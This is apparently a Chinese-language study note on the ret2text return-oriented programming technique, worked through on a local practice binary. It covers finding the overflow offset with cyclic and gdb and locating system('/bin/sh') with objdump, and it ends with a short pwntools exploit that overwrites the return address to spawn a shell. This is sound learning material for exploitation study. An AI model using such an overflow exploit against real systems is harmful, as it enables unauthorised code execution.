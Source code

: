 # ROP-Ret2Text学习

>随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段( gadgets )来改变某些寄存器或者变量的值，从而控制程序的执行流程。**所谓gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。



依赖与程序中存在 执行system("/bin/sh")的函数



### Cyclic找到溢出点

> cyclic 200 # 生成一串随机的 但有具有特殊规律的字符串 对应peda 的指令 是  peda 中指令 ` pattern create 200`；效果如下图

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-25_11-04-14.png)

> 然后运行 gdb 调试 程序，`r`使其运行起来，将所得字符串输入

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-25_11-50-14.png)

可得到 溢出地址，使用cyclic即可得到偏移量

> cyclic -l 0x62616164   #peda 中指令 ` pattern offset 0x62616164`

以上情况，即溢出后暂停得到了 溢出地址，但对于有的情况，程序正确避免溢出地址。没有给出准确溢出地址；即可使用查找字符串的方式 计算偏移，对于上述情况是`cyclic -l eaab` --->对于该题，由于以及得到溢出地址，该方式计算出的便宜会多四个字节

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-25_12-25-09.png)

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-25_20-03-04.png)

### Objdump使用

objdump -t xxx 查看程序中使用到的函数

objdump -d xxx 查看程序中函数的汇编代码

objdump -d -j .plt xxx 查看plt表

  -j的参数有： .text  - 代码段

​           .const - 只读数据段（有些编译器不使用此段，将只读数据并入.data段）

​           .data  - 读写数据段

​           .bss  - bss段

> objdump -d -M intel ret2text   #-M intel 表示选择intel 架构



### ret2text 例题解析

该题无源码。

首先是 使用 objdump查看汇编代码

>objdump -d -M intel ret2text   #-M intel 表示选择intel 架构

然后进一步找到，我们想要的 system函数的位置

> objdump -d -M intel ret2text| grep system  

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-25_15-37-59.png)

为了利用该函数，需要了解其参数；因此在上诉得到的汇编代码中找到相应位置查看。

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-25_15-39-01.png)

然后使用gdb调试，加载后使用`x/s addr`查看相关指令

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-25_15-40-26.png)

然后使用cyclic找到溢出点

payload 如下图所示：

```python
from pwn import *
p = process("./Example/ret2text")
offset = 112 
addr = 0x804863a    #注意，这个位置与字符串位置不一样，该位置为使用字符串的地址。而字符串的地址为数据存储段
payload = offset*b'A' + p32(addr)
p.sendline(payload)
p.interactive()

```

